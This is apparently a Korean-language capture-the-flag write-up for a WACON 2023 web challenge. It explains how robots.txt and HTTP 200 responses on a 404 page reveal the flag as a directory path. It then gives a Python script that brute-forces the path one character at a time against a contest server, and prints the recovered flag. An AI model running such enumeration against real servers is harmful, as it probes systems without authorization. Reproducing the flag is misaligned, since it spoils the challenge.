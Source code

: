 
페이지에 접속하면 404 에러가 발생한다.

```php
User-agent: *
allow: /W/A/C/O/N/2/
```

`robots.txt`에 접속하면 위와 같이 접근 가능한 경로를 확인할 수 있다.

하지만 `/W/A/C/O/N/2/` 경로에 접근해도 브라우저 상에서는 404 에러가 발생하는 것은 변함이 없다. 그러나 1가지 차이점이 있다면 개발자 도구로 패킷을 확인해보면 200 응답이 온다는 것이다.

```php
/W/A/C/O/N/2/0/2/3

/W/A/C/O/N/2/0/2/3/{
```

경로가 flag를 상징하는 것이라는 의심과 함께 위와 같이 전송해보면 모두 200 응답이 반환된다.

즉, 200 응답이 반환되는 경우에는 옳바른 flag라는 것을 알 수 있다.

정리하자면, flag를 알아내기 위해서 1자리씩 `directory boosting`을 진행해야한다.

```php
import requests
import string

url = "http://58.225.56.196:5000"

# flag condition
characters = string.ascii_lowercase + string.digits + '}{'

# start path
path = "/W/A/C/O/N/2/0/2/3"

# directroy boosting
flag = 0
while True:
  if flag == 1:
    break
  for char in list(characters):
    test = f'{path}/{char}'
    res = requests.get(url=url+test)
    if res.status_code == 200:
      path = f'{path}/{char}'
      print(path)
      if char == '}':
        flag = 1
      break

print(path.replace('/', ''))
```

```php
WACON2023{2060923e53fa205a48b2f9ad47d943c4}
```
